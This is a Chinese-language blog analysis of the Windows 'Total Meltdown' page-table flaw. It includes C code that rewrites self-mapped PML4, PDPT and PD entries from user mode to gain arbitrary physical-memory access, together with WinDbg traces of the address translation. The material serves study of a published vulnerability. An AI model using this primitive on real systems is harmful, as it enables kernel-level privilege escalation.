





<!-- more -->

### 漏洞分析

参考链接中对漏洞分析已经很清晰了，本来是想对PD项也进行权限改写，但是添加代码后（如下代码：）

```

#include 
#include 
#include 

#define QWORD unsigned long long

#define BASE 0xFFFF000000000000

#define PML4 0xFFFFF6FB7DBED000

#define PML4SELF_IDX 0x1ed

QWORD getAddr(QWORD base, QWORD pml4Idx, QWORD pdptIdx, QWORD pdIdx, QWORD ptIdx, QWORD offsetIdx);


void testAddr(unsigned char *p);

int main(int argc, char *argv)
{
	unsigned char *temp = (unsigned char *)0xFFFFF6FB7DBED000;

	unsigned char *p = (unsigned char*)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, 1, 0);//到达PDPT
	testAddr(p);
	QWORD *pdpte = (QWORD *)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, 8);
	*pdpte = (*pdpte | 7);
	testAddr(p);

//添加部分

	unsigned char *pd = (unsigned char*)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, 1, 5, 0x0);//到达PD
	testAddr(pd);
	QWORD *pde = (QWORD *)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, 1, 40);
	*pde = (*pde | 7);
	testAddr(pd);
	
	system("pause");
	return 0;
}


QWORD getAddr(QWORD base, QWORD pml4Idx, QWORD pdptIdx, QWORD pdIdx, QWORD ptIdx, QWORD offsetIdx) {
	base = base + offsetIdx + (ptIdx << 12) + (pdIdx << 21) + (pdptIdx << 30) + (pml4Idx << 39);
	return base;
}

void testAddr(unsigned char *p) {
	__try {
		int i = *p;
		memcpy(p + 40, "\x00\x00\x00\x00\x00\x02\x00\x00", 8);
		printf("access 0x%p sucess\n", p);
	}
	__except (EXCEPTION_EXECUTE_HANDLER) {
		printf("access 0x%p error\n", p);
	
	}
}

```

发生错误，所以就对原因进行探究。首先是对虚拟地址转化成物理地址的过程进行分析，如下图：



实际调试过程如下：

两个地址的分解结果：

```
kd> .formats 0xFFFFF6FB7DA01000
Evaluate expression:
  Hex:     fffff6fb`7da01000
  Decimal: -9914971844608
  Octal:   1777777557557550010000
  Binary:  11111111 11111111 11110110 11111011 01111101 10100000 00010000 00000000
  Chars:   ....}...
  Time:    ***** Invalid FILETIME
  Float:   low 2.65949e+037 high -1.#QNAN
  Double:  -1.#QNAN
```
```
11111111 11111111 
11110110 1 ：0x1ED (PML4 index)
1111011 01 : 0x1ED (PDPT index)
111101 101 : 0x1ED (PD index)
00000 0001 : 0x1 (PT index)
0000 00000000 (OFFSET)
```

---

```
kd> .formats 0xfffff6fb40205000
Evaluate expression:
  Hex:     fffff6fb`40205000
  Decimal: -9916003627008
  Octal:   1777777557550010050000
  Binary:  11111111 11111111 11110110 11111011 01000000 00100000 01010000 00000000
  Chars:   ....@ P.
  Time:    ***** Invalid FILETIME
  Float:   low 2.50488 high -1.#QNAN
  Double:  -1.#QNAN

11111111 11111111 
11110110 1 : 0x1ED(PML4 index)
1111011 01 : 0x1ED(PDPT index)
000000 001 : 0x1 (PD index)
00000 0101 : 0x5 (PT index)
0000 00000000 (OFFSET)
 
```

查看cr3寄存器的值

```
kd> rM 80
cr0=0000000080050031 cr2=fffff900c22eb000 cr3=0000000000187000
cr8=000000000000000f
```



得到PFN是0x00187，将PFN*PageSize得到下一级结构PDPT的基址，然后使用pdpt_index来索引PDPT，通过计算PDPT的基址为0x00187000,依然指向的是PML4.
继续计算PD的基址也是0x00187000，最后剩下PT的基址也为0x00187000,所以0xFFFFF6FB7DA01000转化成的物理地址为：0x0000000000000000



经过分析发现之前修改PD项权限错误的原因是PDPT项被映射到了0x0地址上，而0x0上填充的内容超过了映射地址范围，经过测试映射范围最大为0x7ff`ffff`ffff。



所以将要映射的地址填成这个范围就可以成功了。

```
memcpy(p + 40, "\x00\x00\x00\x00\x00\x02\x00\x00", 8);
```

运行效果图：



### 参考链接

https://www.coresecurity.com/blog/getting-physical-extreme-abuse-of-intel-based-paging-systems-part-2-windows

https://bbs.pediy.com/thread-224348.htm

http://blog.frizk.net/2018/03/total-meltdown.html

https://cert.360.cn/warning/detail?id=b58c185c339521ee4e31674d36cd36e3